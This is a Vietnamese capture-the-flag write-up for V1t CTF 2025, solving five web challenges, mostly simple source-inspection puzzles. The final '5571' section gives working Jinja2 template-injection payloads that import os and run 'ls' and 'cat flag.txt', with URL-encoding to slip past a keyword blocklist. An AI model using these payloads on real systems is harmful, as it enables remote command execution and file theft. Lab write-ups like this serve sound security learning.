








# V1t CTF 2025

## Danh sách bài:
- [Web - Login Panel](#web---login-panel)
- [Web - Stylish Flag](#web---stylish-flag)
- [Web - Tiny Flag](#web---tiny-flag)
- [Web - Mark The Lyrics](#web---mark-the-lyrics)
- [Web - 5571](#web---5571)

---

## Web - Login Panel

Khi vào trang web nó bắt ta phải nhập username và password.

Kiểm tra mã nguồn và thấy điểm quan trọng:
```js
const ajnsdjkamsf = 'ba773c013e5c07e8831bdb2f1cee06f349ea1da550ef4766f5e7f7ec842d836e'; // replace
const lanfffiewnu = '48d2a5bbcf422ccd1b69e2a82fb90bafb52384953e77e304bef856084be052b6'; // replace
...
const uHash = await sha256Hex(username);
const pHash = await sha256Hex(password);

if (timingSafeEqualHex(uHash, ajnsdjkamsf) && timingSafeEqualHex(pHash, lanfffiewnu)) {
    alert(username + '{' + password + '}');
} else {
    alert('Invalid credentials');
}
```

Ta thấy `username` và `password` sẽ được băm bằng hàm `sha256Hex` rồi so sánh với `ajnsdjkamsf` và `lanfffiewnu` thì khả năng cho ra flag.

Decode ta sẽ được username và password:



-> `flag: v1t{p4ssw0rd}`

## Web - Stylish Flag

Xem thử source ta thấy điểm quan trọng:
```html
<div hidden class="flag"></div>
```

`flag` đang bị ẩn giờ sẽ tìm cách để nó hiện lên và xoay ngược lại:

```js
const f = document.querySelector('.flag');
f.hidden = false;                 // bỏ ẩn
f.style.opacity = 1;              // đậm lên
f.style.transform = 'scale(8)';   // phóng to (ghi đè rotate)
f.style.position = 'fixed'; 
f.style.left = '8px';
f.style.top = '8px';
```

Tìm được `flag`:



## Web - Tiny Flag

Trang web gợi ý ta có thể `Inspect` hoặc sử dụng `Devtools`:



Kiểm tra tất cả các file `html`, `css`, `js` đều không thấy gì. Nhưng trong file html tôi thấy một điểm đặc biệt:
```html
<link rel="shortcut icon" href="favicon.ico" type="image/x-icon">
```
 Nhưng trên web không thấy icon, ta thử click vào

 

Ảo thật đấy, đã tìm được flag.

## Web - Mark The Lyrics

Vào trang web ta thấy một link youtube bài hát của MCK và lời bài hát đó.

Để ý một chút các kí tự được đánh dấu đậm hơn có vẻ đó là flag:

`V` `1` `T` `{` `MCK` `-pap-` `cool` `-ooh-` `yeah` `}`

Ảo thật đấy, ra luôn flag: `v1t{mck-pap-cool-ooh-yeah}`

## Web - 5571

Xem source html ta thấy một `blocked_list`:
```js
BLOCKED_LITERALS = [
'{', '}', '__', 'open', 'os', 'subprocess', 'import', 'eval', 'exec', 'system', 'popen', 'builtins', 'globals', 'locals', 'getattr', 'setattr', 'class', 'compile', 'inspect'
]
```

- Nhìn blocked_list tôi nghĩ ngay đến SSTI và test thử, trang web cho tôi một thông báo lỗi: `Try encoding blocked tokens.`
- Trang `/scan`: `Use the note editor to craft requests that attempt to read files (encoded tokens required).`

Giờ ta thử url-encode `{{7*7}}` -> `%7b%7b%37%2a%37%7d%7d`



Trang web render ra `49` -> SSTI.

Ta tiếp tục thử url-encode `{{7*'7}}` -> `%7b%7b%37%2a%27%37%27%7d%7d`



Điều này chứng tỏ trang web dùng Jinja2.

Ta tiến hành liệt kê các file bằng câu lệnh ls:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

URL encode: 
```
%7b%7b%20%73%65%6c%66%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%6f%73%27%29%2e%70%6f%70%65%6e%28%27%6c%73%27%29%2e%72%65%61%64%28%29%20%7d%7d
```



Tiến hành đọc file flag.txt:
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
URL-encode:
```
%7b%7b%20%73%65%6c%66%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%5f%5f%69%6d%70%6f%72%74%5f%5f%28%27%6f%73%27%29%2e%70%6f%70%65%6e%28%27%63%61%74%20%66%6c%61%67%2e%74%78%74%27%29%2e%72%65%61%64%28%29%20%7d%7d
```



Thành công tìm được flag.
